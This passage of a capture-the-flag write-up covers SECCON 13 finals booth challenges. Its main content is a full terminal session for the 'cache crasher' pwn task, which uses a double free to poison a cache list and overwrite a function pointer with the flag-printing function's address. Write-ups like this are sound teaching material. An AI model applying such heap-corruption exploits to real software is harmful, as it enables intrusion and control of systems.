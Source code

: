 
```sh
nasm -f elf64 tmp.asm -o challenge.o
```

## Can U Keep A Secret?
<primary-label ref="pwn"/>

[](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/can-u-keep-a-secret)

* I checked the disassembly then I noticed that second `rand()` were disappeared.

![Screenshot_20250303_223802.png](Screenshot_20250303_223802.png)

## cache crasher
<primary-label ref="pwn"/>

[](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/cache-crasher)

* solution
  * double free -> type confusion
```sh
[~] >>>nc 34.170.146.252 45969
address of print_flag: 0x40222e
address of funcptr: 0x405150
opcode(0: alloc, 1: free): 0
data(integer): 0
content of funcptr: 0x4022a2
Cache:
(nil)
Buffer:
buf[0]: 0x4051a0 (val: 0x0)
opcode(0: alloc, 1: free): 1
what index to free: 0
content of funcptr: 0x4022a2
Cache:
0x4051a0 -> (nil)
Buffer:
buf[0]: 0x4051a0 (val: 0x0)
opcode(0: alloc, 1: free): 1
what index to free: 0
content of funcptr: 0x4022a2
Cache:
0x4051a0 -> 0x4051a0 -> 0x4051a0 -> 0x4051a0 -> 0x4051a0 -> ...
Buffer:
buf[0]: 0x4051a0 (val: 0x4051a0)
opcode(0: alloc, 1: free): 0
data(integer): 4215120
content of funcptr: 0x4022a2
Cache:
0x4051a0 -> 0x405150
Buffer:
buf[0]: 0x4051a0 (val: 0x405150)
opcode(0: alloc, 1: free): 0
data(integer): 4203054
content of funcptr: 0x4022a2
Cache:
0x405150
Buffer:
buf[0]: 0x4051a0 (val: 0x40222e)
opcode(0: alloc, 1: free): 0
data(integer): 4203054
content of funcptr: 0x40222e
Alpaca{***REDACTED***}
opcode(0: alloc, 1: free): ^C
```